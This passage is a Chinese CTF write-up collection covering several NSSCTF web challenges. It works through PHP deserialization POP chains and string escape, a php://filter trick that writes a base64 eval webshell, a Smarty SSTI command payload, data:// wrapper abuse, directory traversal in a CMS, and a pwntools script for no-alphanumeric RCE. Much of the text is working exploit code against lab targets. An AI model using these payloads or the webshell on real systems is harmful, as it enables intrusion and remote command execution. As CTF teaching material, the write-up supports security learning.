{
    $data=serialize(new UUCTF($pdata));
    $data_replace=str_replace("hacker","loveuu!",$data);
    unserialize($data_replace);
}else{
    highlight_file(__FILE__);
}
?>
```

拿到题目我们先不管前置，可以把pop链先找出来

```
youwant::rce() -> output::toString() -> nothing::destruct()
```


```
<?php
//flag in flag.php

class output{
    public $a;

}
class nothing{
    public $a;
    public $b;
    public $t;
}
class youwant{
    public $cmd;

}

$exp = new nothing();
$exp->a = new output();
$exp->a->t = new youwant();        
$exp->a->a = &$exp->a->b;
$exp->a->a->cmd = 'system("cat flag.php");';

echo base64_encode(serialize($c));
```

我们接下来要考虑的是怎么把exp赋给basedata，同时也要让key=UUCTF

```
class UUCTF{
    public $name,$key,$basedata,$ob;
    function __construct($str){
        $this->name=$str;
    }
    function __wakeup(){
    if($this->key==="UUCTF"){
            $this->ob=unserialize(base64_decode($this->basedata));
        }
        else{
            die("oh!you should learn PHP unserialize String escape!");
        }
    }
}
```

这就用到了一个考点，php反序列化字符串逃逸

参考：[PHP反序列化字符逃逸详解_php filter字符串溢出-CSDN博客](https://blog.csdn.net/qq_45521281/article/details/107135706)

> 
>
> [[UUCTF 2022 新生赛\]ezpop 详细题解(字符串逃逸)-CSDN博客](https://blog.csdn.net/weixin_73904941/article/details/143440458)

根据字符串逃逸构造出最终exp

exp

```php
<?php
class UUCTF{
    public $name,$key,$basedata,$ob;
}
class output{
    public $a;  
}
class nothing{
    public $a;  
    public $b;
    public $t;
}
class youwant{
    public $cmd; 
    }
 
$a = new youwant();
$a->cmd = 'system("cat flag.php");';
$b = new output();
$b->a = $a;
$c = new nothing();
$c->a = &$c->b;
$c->t = $b;
$basedata = base64_encode(serialize($c));
 
$post='";s:3:"key";s:5:"UUCTF";s:2:"ob";N;s:8:"basedata";s:'.strlen($basedata).':"'.$basedata.'";}';
for($i=0;$i<strlen($post);$i++)
{
  $hacker=$hacker.'hacker';
 
}
echo $hacker.$post;
```

> **为什么这里没办法绕过__wakeup()方法？**
>
> 题目的版本是PHP/7.2.34  
>
> __wakeup()绕过漏洞存在的版本需要满足 PHP5 < 5.6.25   PHP7 < 7.0.10


### [羊城杯 2020]easyser

考点：php反序列化 ssrf fuzz

拿到题先扫一下目录



robots.txt有hint



访问/start1.php/





源码有hint，应该是要读源码

payload：

```
http://node4.anna.nssctf.cn:28113/star1.php?path=http://127.0.0.1/ser.php
```

```php
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?>
```

这个链子比较简单，但是很莫名其妙的触发了GWHT类的__toString()方法，我也不知道为什么

死亡杂糅：https://xz.aliyun.com/t/8163

poc

```php
<?php

class GWHT{
    public $hero;

}
class Yongen{ //flag.php
    public $file;
    public $text;

}


$door = new GWHT();
$door->hero = new Yongen();
$door->hero->file = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php';
$door->hero->text = 'PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==';
echo urlencode(serialize($door));


?>
```

不是哥们，我传什么参呢

抽象了，据说用arjun能爆破出来，但是我没成功就是了




蚁剑连一下



### [NISACTF 2022]midlevel



拿到题目，是Smarty



存在ssti

https://xz.aliyun.com/t/11108

payload:

```
X-Forwarded-For: string:{function name='x(){};system("cat /flag");function '}{/function}
```



### [GDOUCTF 2023]泄露的伪装

考点：PHP伪协议目录扫描PHP



/test.txt

```php

<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "洗洗睡吧";
    }
}else{
    echo "nononoononoonono";
}
?>
```

/www.rar



访问/orzorz.php



这段 **PHP** 代码的作用是：接收一个名为 “**cxk**” 的 **GET** 参数，读取该参数指定的文件内容并与字符串 “**ctrl**” 进行比较。如果相等，则输出 $flag 的值；否则输出 “洗洗睡吧”。如果没有传递 **“cxk”** 参数，则输出 “nononoononoonono”。

直接传入ctrl不行，我们可以尝试通过伪协议传入试试

```
data://text/plain;base64,Y3RybA==
```


### [GKCTF 2021]easycms

考点 目录穿越 弱口令 RCE




http://node4.anna.nssctf.cn:28371/admin.php



抓个包想爆破，发现密码被加密了



看一下js



我去，有点麻烦

先测一下弱口令吧 admin/12345 直接登进去了



#### 解法一

参考 https://blog.csdn.net/LYJ20010728/article/details/120005727

这是一个cve



可以在头部代码中插入恶意的代码

如果保存文件时显示需要存在指定文件时才能进行模板修改



可以通过设置中的微信设置中通过目录穿越创建对应文件即可



保存后访问首页即可



这题还有另一种解法

#### 解法二

在主题->自定义中



可以导出主题



导出主题

复制下载链接

```
http://node4.anna.nssctf.cn:28371/admin.php?m=ui&f=downloadtheme&theme=L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvMTIzLnppcA==
```

将theme=后面base64解码后



也就是说这里可能存在目录穿越



尝试直接读flag






### [鹏城杯 2022]简单的php

```php
<?php
show_source(__FILE__);
    $code = $_GET['code'];
    if(strlen($code) > 80 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/is',$code)){
        die(' Hello');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);

    }

?>
```

无字母数字无参rce

无参我们可以想到

[无参数RCE绕过的详细总结（六种方法）_无参数的取反rce-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/133808536)

```
var_dump(end(getallheaders()));
```



无字母数字我们可以想到取反

两者结合一下，用一下大佬的脚本

```php
from pwn import *
import html
context.log_level = "debug"

host = "node4.anna.nssctf.cn:28674"
command = "system(end(getallheaders()))"
cmd = "ls /;cat /nssctfflag;"


##异或取反脚本
codes = command.replace(")","").split("(")[:-1][::-1]
res = ""
inline = ""
for code in codes:
    re_code = "~"+"".join(["%"+hex(255 - ord(i))[2:]for i in code])
    res = f"[{re_code}][!%ff]({inline})"
    inline = res
    print(res)
res += ";"


##发送数据
raw = f'''GET /?code={res} HTTP/1.1
Host: {host}
Connection: close
Content-Length: 0
cmd: {cmd}


'''.replace("\n","\r\n").encode()
io = remote(host.split(":")[0],host.split(":")[1],ssl=False)
io.send(raw)
res = io.recvall().decode()
html = html.unescape(res)
print(html)
```

